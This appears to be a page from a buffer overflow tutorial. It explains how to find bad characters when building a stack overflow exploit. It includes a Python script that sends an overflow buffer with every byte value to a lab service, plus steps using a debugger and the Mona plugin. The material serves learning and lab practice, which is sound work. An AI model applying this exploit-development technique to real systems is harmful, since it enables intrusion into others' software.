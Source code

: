 One important step in BOF is to identify bad characters. I followed a bit different way to find all bad characters.
```Pyrhon
#!/usr/bin/python

import socket,sys

badchar_test = ""
badchars = [0x00, 0x0A]
RHOST = "192.168.0.227"
RPORT = 31337

for i in range(0x00, 0xFF+1):
    if i not in badchars:
        badchar_test += chr(i)
        
with open("badchar_test.bin", "wb") as f:
    f.write(badchar_test)
    
buffer = "A"*146 + "B"*4 + badchar_test

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
When we run this script against the vulnerable program, it will generate a file called "badcahr_test.bin". After the crash, right click on ESP and click on "Follow in Dump":

![Badchars Dump]

We can now bring our badchars_test.bin to our Windows VM by using
```Python python -m SimpleHTTPServer 80```

And with the help of Mona modules, we can compare the file to the actual badchars in the dump:

![Find Badchars]

We can see x00 and x0A are bad characters that we need to omit in our custom payload.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)

